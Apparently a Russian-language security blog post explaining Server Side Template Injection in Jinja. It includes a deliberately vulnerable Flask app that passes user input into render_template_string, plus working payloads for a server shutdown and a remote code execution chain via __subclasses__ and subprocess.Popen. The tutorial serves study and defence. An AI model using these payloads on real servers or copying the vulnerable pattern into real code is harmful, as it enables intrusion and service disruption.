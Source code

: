 ```yaml
---
layout: post
published: true
title: Server Side Template Injection (SSTI) в Jinja
---
```


Jinja это шаблонизатор для Python приложений, таких как Django и Flask. Шаблонизатор в модели mvc отвечает за представление (view).
Он генерирует HTML на основе статических шаблонов динамически добавляя в них элементы.
Иньекция позволяет атакующему выпонить вредоносный код в шаблоне.

###### Встроеные функции Jinja
* `{% raw %}{{var}} {% endraw %}` - переменная
* `{% raw %}{% condition %}{% endraw %}` - выражение
* ...

###### Пример приложение с уязвимостью
Для примера создадим Flask приложение с уязвимостью.
```python
from flask import Flask, request, render_template_string

app = Flask(__name__)


@app.route('/')
def flask_ssti():
    name = "World"
    if request.args.get('name'):
        name = request.args.get('name')
    template = '''
        <!doctype html>
        <h1>Hello %s!</h1>
        <form>
            <input type="text" name="name">
        </form>
    ''' % (name)
    return render_template_string(template)


if __name__ == "__main__":
    app.run(debug=True)
```

###### Пример атаки
Попробуем подставить в уязвимый параметр выражение `{%raw%}{{1+1}}{%endraw%}`

![ssti1](/images/ssti1.png){: .shadow-image }

###### К чему мы получаем доступ
* к объекту `request`
* к объекту `config`
* к переменным jinja


###### Остановка сервера
В случае если мы используем сервер разработки следующий payload приведет к остановке сервера
```console
{% raw %}{{ request.environ['werkzeug.server.shutdown']() }} {% endraw %}
```

###### Remote Code Execution

```python
{% raw %}{{ ''.__class__.__mro__}} # find <class 'object'>
{{ ''.__class__.__mro__[1].__subclasses__()}} # find <class 'subprocess.Popen'>
{{ ''.__class__.__mro__[1].__subclasses__()[282]('touch /tmp/rce',shell=True) }}{% endraw %}
```

![ssti2](/images/ssti2.png){: .shadow-image }

##### Links
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
* [https://0day.work/jinja2-template-injection-filter-bypasses/](https://0day.work/jinja2-template-injection-filter-bypasses/)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2)
* [https://nvisium.com/blog/2015/12/07/injecting-flask.html](https://nvisium.com/blog/2015/12/07/injecting-flask.html)
* [http://jinja.pocoo.org/](http://jinja.pocoo.org/)
* [https://github.com/epinna/tplmap](https://github.com/epinna/tplmap)